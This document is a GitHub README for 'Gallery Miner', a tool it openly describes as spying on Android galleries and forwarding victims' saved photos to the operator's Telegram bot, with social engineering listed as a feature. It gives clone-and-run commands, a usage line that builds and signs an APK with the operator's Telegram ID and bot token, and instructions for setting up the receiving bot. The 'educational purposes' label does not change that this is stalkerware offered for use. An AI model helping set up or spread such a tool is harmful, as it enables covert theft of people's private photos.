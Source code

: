 <div align="center">
  <img src="/images/icon.png" width="30%" />
  <h1 align="center">Gallery Miner (Under Development)</h1>
  <h3>Yet another software for spying on Android gallery and forward all victim saved photos to your telegram bot.</h3>
  <h4>This software is exclusively designed for educational purposes ⚠️</h4>
</div>

## Features
- easy to use
- customizable
- social engineering

## Setup and installation

### Step 1

```
git https://github.com/mkdirlove/GalleryMiner.git
```
```
cd GalleryMiner
```
```
bash galleryminer.sh
```

### Usage

```
  ___      _ _              __  __ _              
 / __|__ _| | |___ _ _ _  _|  \/  (_)_ _  ___ _ _ 
| (_ / _` | | / -_) '_| || | |\/| | | ' \/ -_) '_|
 \___\__,_|_|_\___|_|  \_, |_|  |_|_|_||_\___|_|  
                       |__/                       
  Made with <3 by @mkdirlove             v1.0-dev

Using tools:
  APKTool: apktool
  Jarsigner: jarsigner

Usage: galleryminer.sh --tg_id <id_content> --tg_bot_token <bot_token> --sign <sign_option>
```

### Example Usage

```
bash galleryminer.sh --tg_id 1234578 --tg_bot_token DFGD34dfgtry34 --sign yes
```

### Step 2
Obtain your Telegram bot token and your numeric Telegram id.

<strong>Create a Telegram bot:</strong>

Open BotFather on your telegram acccount: [Open BotFather](https://t.me/BotFather)

Start BotFather and send <strong>/newbot</strong> commend and then BotFather will ask you to enter a name and a username for your bot.

After that BotFather will create your bot, copy and save your bot token and click on your bot username and start it.

<p float="left">
  <img src="/images/prv1.png" width="20%" />
  <img src="/images/prv2.png" width="20%" />
</p>

<strong>Obtain your numeric id:</strong>

To obtain your teleram account numeric id you need to start @userinfobot Teleram bot

[Click here to start userinfobot Telegram bot](https://t.me/userinfobot)

After starting this bot, the bot will send you your numeric telegram id

<p float="left">
  <img src="/images/prv3.png" width="20%" />
</p>





